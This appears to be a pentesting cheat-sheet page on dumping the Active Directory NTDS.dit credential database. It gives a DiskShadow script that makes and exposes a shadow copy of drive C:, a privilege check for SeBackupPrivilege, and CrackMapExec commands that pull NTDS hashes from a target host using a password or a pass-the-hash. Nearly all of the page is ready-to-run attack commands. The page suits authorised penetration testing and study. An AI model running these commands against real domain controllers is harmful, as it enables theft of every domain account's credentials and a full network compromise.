 # Dump NTDS.dit

Source

{% embed url="https://wiki.porchetta.industries/smb-protocol/obtaining-credentials/dump-ntds.dit" %}

## Verify Backup Privileges

Running <mark style="color:green;">**`whoami /priv`**</mark> should show us if we have the right privileges to make a backup of the NTDS.dit and SYSTEM files. We are looking for <mark style="color:green;">**`SeBackupPrivilege`**</mark>

## DiskShadow

Create a file called vss.dsh with the code below in it. Then run `unix2dos vss.dsh` to convert a readable windows file.

```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```



## CrackMapExec

```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
```

```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

```
#~ cme smb 192.168.1.100 -u UserNAme -H 'HASH HERE' --ntds vss
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>
